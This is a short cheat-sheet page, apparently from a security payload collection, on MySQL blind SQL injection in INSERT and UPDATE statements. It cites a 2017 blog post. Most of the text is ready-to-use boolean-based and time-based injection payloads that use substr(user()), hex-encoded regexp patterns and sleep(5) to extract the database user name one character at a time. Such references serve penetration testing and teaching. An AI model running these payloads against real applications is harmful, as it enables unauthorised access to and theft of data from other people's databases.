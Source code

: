 ## Mysql

#### MySQL Blind Injection in Insert and Update Statements
Source:
https://osandamalith.com/2017/03/13/mysql-blind-injection-in-insert-and-update-statements/

##### Boolean Based Blind Injection:

If the result is true the entry will be updated with a ‘1’ and if the result is false the entry will be updated with a ‘0’.


```
update users set username = ‘0’ | (substr(user(),1,1) regexp 0x5e5b6d2d7a5d) where id=14;
 
 Without regexp
 UPDATE users set username = '0'| (substr(user(),1,1) = 'r');


insert into users values (15,’osanda’,'0'| (substr(user(),1,1) regexp 0x5e5b6d2d7a5d));
```

##### Time Based Blind Injection

```
update users set username = '0'|if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1) where id=15;

insert into users values (16,’osanda’,'0'| if((substr(user(),1,1) regexp 0x5e5b6d2d7a5d), sleep(5), 1));
```
